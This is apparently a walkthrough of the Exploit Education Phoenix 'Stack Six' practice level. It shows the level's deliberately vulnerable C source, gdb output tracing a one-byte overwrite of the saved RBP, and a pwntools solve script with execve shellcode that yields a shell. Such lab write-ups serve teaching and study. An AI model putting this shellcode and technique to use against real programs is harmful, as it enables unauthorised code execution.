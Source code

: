 ```yaml
---
title: "Phoenix - Stack Six"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/exploit-education/exploit-education.png
ribbon: red
description: "This level exploits the 1‑byte buffer overflow, to learn more about it read the references at the end.
This code reads the environment variable **ExploitEducation** and passes it to **greet** function in the variable **who**.
Then it copies **GREET** message to the buffer which in this case is..."
categories:
  - Binary Exploitation
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *what = GREET;

char *greet(char *who) {
  char buffer[128];
  int maxSize;

  maxSize = strlen(who);
  if (maxSize > (sizeof(buffer) - /* ensure null termination */ 1)) {
    maxSize = sizeof(buffer) - 1;
  }

  strcpy(buffer, what);
  strncpy(buffer + strlen(buffer), who, maxSize);

  return strdup(buffer);
}

int main(int argc, char **argv) {
  char *ptr;
  printf("%s\n", BANNER);

#ifdef NEWARCH
  if (argv[1]) {
    what = argv[1];
  }
#endif

  ptr = getenv("ExploitEducation");
  if (NULL == ptr) {
    // This style of comparison prevents issues where you may accidentally
    // type if(ptr = NULL) {}..

    errx(1, "Please specify an environment variable called ExploitEducation");
  }

  printf("%s\n", greet(ptr));
  return 0;
}
```

This level exploits the 1‑byte buffer overflow, to learn more about it read the references at the end.

This code reads the environment variable **ExploitEducation** and passes it to **greet** function in the variable **who**.

Then it copies **GREET** message to the buffer which in this case is "Welcome, I am pleased to meet you ".

After that it check for input size (maximum size is 127).

Now comes the bug, it copies the input to buffer + 34 (GREET length) so if our input size is 127 which is the maximum we could overflow the buffer and write 34 bytes past it.

So in total we are allowed to write 34 + 127 = 161 bytes, is it enough to overwrite the return address and redirect code execution ???

Unfortunately the answer it no, we can only overwrite the lowest byte of the saved **RBP**.

> #### Quick tips:
>
> - You can add these lines to **".gdbinit"** file to adjust gdb addresses to be more realistic.
>
>
> ```
> unset env LINES
> unset env COLUMNS
> set env _ /opt/phoenix/amd64/stack-six
> ```
>
> 
>
> - Keep the length of your exploit fixed every time to avoid shifting memory addresses (and to avoid the headache).



```
$ export ExploitEducation=$(python -c "print 'A'*161")			# Fill ExploitEducation env variable with 127 A's

$ gdb -q /opt/phoenix/amd64/stack-six 
Reading symbols from /opt/phoenix/amd64/stack-six...(no debugging symbols found)...done.

gef➤  disassemble greet 
Dump of assembler code for function greet:
.....
   0x000000000040077a <+125>:	mov    rdi,rcx
   0x000000000040077d <+128>:	call   0x400550 <strncpy@plt>
   0x0000000000400782 <+133>:	lea    rax,[rbp-0xa0]			# address of who
   0x0000000000400789 <+140>:	mov    rdi,rax
   0x000000000040078c <+143>:	call   0x400560 <strdup@plt>
.....

gef➤  b *0x0000000000400782
Breakpoint 1 at 0x400782

gef➤  r
Starting program: /opt/phoenix/amd64/stack-six 
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Breakpoint 1, 0x0000000000400782 in greet ()

gef➤  info registers rbp
rbp            0x7fffffffe590      0x7fffffffe590

gef➤   x/22xg $rbp-0xa0
0x7fffffffe510:	0x2c656d6f636c6557	0x6c70206d61204920
0x7fffffffe520:	0x6f74206465736165	0x6f79207465656d20
0x7fffffffe530:	0x4141414141412075	0x4141414141414141
0x7fffffffe540:	0x4141414141414141	0x4141414141414141
0x7fffffffe550:	0x4141414141414141	0x4141414141414141
0x7fffffffe560:	0x4141414141414141	0x4141414141414141
0x7fffffffe570:	0x4141414141414141	0x4141414141414141
0x7fffffffe580:	0x4141414141414141	0x4141414141414141
0x7fffffffe590:	0x4141414141414141	0x4141414141414141
0x7fffffffe5a0:	0x4141414141414141	0x4141414141414141
0x7fffffffe5b0:	0x00007fffffffe541	0x00000000004007e9
```

As you can see we were able to only overwrite the first byte of the saved **RBP** (remember that this is the base pointer of the calling function"main").

We know that this modified **RBP** will be used to restore **RSP** at the end of **main** function and then jump to the return address, so the idea of the exploit is modifying **RBP** to point to a an address where **RBP+8** (which will be the return address of main) points somewhere in the environment variable **ExploitEducation**.

We can get the address of **ExploitEducation** using many ways like dumping the stack until we find it (environment variables are at the end of the stack).

Here I used the command **grep** which is an alias for **search-pattern**.

```
gef➤  grep ExploitEducation=
[+] Searching 'ExploitEducation=' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffeeff - 0x7fffffffef36  →   "ExploitEducation=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
```

As you can see our input address starts at **0x7fffffffeeff**, but we need the start of the input to the real start is **0x7fffffffeeff + len("ExploitEducation=") = 0x7fffffffef10**.

So the return address must point somewhere inside **0x7fffffffef10** and **0x7fffffffef10+126**.

As we can only change the last byte of **RBP**, it's value can be between **0x7fffffffe501** and **0x7fffffffe5ff**, so let's put a breakpoint at the end of main and see if there is a good address we can jump to in this range.

```
gef➤  disassemble main 
Dump of assembler code for function main:
   0x00000000004007e4 <+73>:	call   0x4006fd <greet>
   0x00000000004007e9 <+78>:	mov    rdi,rax
   0x00000000004007ec <+81>:	call   0x400530 <puts@plt>
   0x00000000004007f1 <+86>:	mov    eax,0x0
   0x00000000004007f6 <+91>:	leave

gef➤  b *0x00000000004007f6
Breakpoint 2 at 0x4007f6

gef➤  r
Starting program: /opt/phoenix/amd64/stack-six 
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Breakpoint 1, 0x00000000004007f6 in main ()

gef➤   x/32xg 0x7fffffffe500
0x7fffffffe500:	0x00007ffff7ffc948	0x00000000000000a6
0x7fffffffe510:	0x0000000000000001	0x00007ffff7db6d0f
0x7fffffffe520:	0x00007ffff7ffc948	0x00000000000000a6
0x7fffffffe530:	0x00007fffffffe58f	0x0000000000000001
0x7fffffffe540:	0x4141414141414141	0x00007ffff7ffb300
0x7fffffffe550:	0x0000000000000000	0x0000000000600c00
0x7fffffffe560:	0x000000000040079b	0x0000000000000000
0x7fffffffe570:	0x0000000000000000	0x00007ffff7db6b1e
0x7fffffffe580:	0x00007ffff7ffb300	0x0a00000000000000
0x7fffffffe590:	0x00007ffff7ffb300	0x00007ffff7db9934
0x7fffffffe5a0:	0x4141414141414141	0x00007fffffffe541
0x7fffffffe5b0:	0x00007fffffffe648	0x00000000004007f1
0x7fffffffe5c0:	0x00007fffffffe638	0x00000001ffffe648
0x7fffffffe5d0:	0x000000000040079b	0x00007fffffffef10
0x7fffffffe5e0:	0x0000000000000001	0x00007ffff7d8fd62
0x7fffffffe5f0:	0x0000000000000000	0x00007fffffffe630
```

And viola!!!, we get **0x00007fffffffef10** at address **0x7fffffffe5d8** so we overwrite **RBP** to be **0x7fffffffe5d0** and that's it, the **leave** instruction will move RBP to RSP and pop the top value of the stack to RBP (which is at 0x7fffffffe5d0) then the **ret** will pop the next value to RIP (which is at 0x7fffffffe5d8).

So the whole idea was to overwrite **RBP** to point to an address where **RBP+8** is the address of our shellcode, so that at the end of the calling function the value of **RIP** will point to that address.

# Solution:

```python
# solve.py

from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

buff = ""
buff += '\x90' * 20		# some NOP sled is always good :)
buff += shellcode
buff += 'A' * (126 - len(buff))
buff += '\xd0'

print(buff)
```

```
$ export ExploitEducation=$(python solve.py)
$ /opt/phoenix/amd64/stack-six
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Welcome, I am pleased to meet you 1�H�ѝ��Ќ��H��ST_�RWT^�;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����
$ whoami
phoenix-amd64-stack-six
```

Note: the 32bit version might have a slightly different solution, but the idea is still the same.

#### References:

[https://www.welivesecurity.com/2016/05/10/exploiting-1-byte-buffer-overflows](https://www.welivesecurity.com/2016/05/10/exploiting-1-byte-buffer-overflows)